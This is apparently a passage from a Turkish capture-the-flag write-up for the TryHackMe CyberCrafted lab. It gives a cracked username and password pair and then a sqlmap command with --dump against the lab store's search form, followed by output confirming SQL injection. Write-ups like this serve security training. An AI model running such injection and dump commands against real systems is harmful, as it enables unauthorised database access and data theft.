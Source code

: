 

Verilen hash'i crackstation sitesinde kıralım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/CyberCrafted/images/a9.png?raw=true)

```
xXUltimateCreeperXx
diamond123456789
```

Diğer yöntem

Sqlmap

```bash
❯ sqlmap -u "http://store.cybercrafted.thm/search.php" --method POST --data "search=doesnt&submit=matter" -p search --batch --dump
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.6.12#stable}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 20:21:14 /2023-11-11/

[20:21:14] [INFO] testing connection to the target URL
[20:21:15] [INFO] checking if the target is protected by some kind of WAF/IPS
[20:21:15] [INFO] testing if the target URL content is stable
[20:21:15] [INFO] target URL content is stable
[20:21:15] [WARNING] heuristic (basic) test shows that POST parameter 'search' might not be injectable
[20:21:16] [INFO] testing for SQL injection on POST parameter 'search'
[20:21:16] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[20:21:19] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[20:21:19] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[20:21:21] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[20:21:22] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[20:21:24] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[20:21:25] [INFO] testing 'Generic inline queries'
[20:21:25] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[20:21:26] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[20:21:28] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[20:21:29] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[20:21:40] [INFO] POST parameter 'search' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[20:21:40] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[20:21:40] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[20:21:41] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[20:21:42] [INFO] target URL appears to have 4 columns in query
[20:21:43] [INFO] POST parameter 'search' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
POST parameter 'search' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
```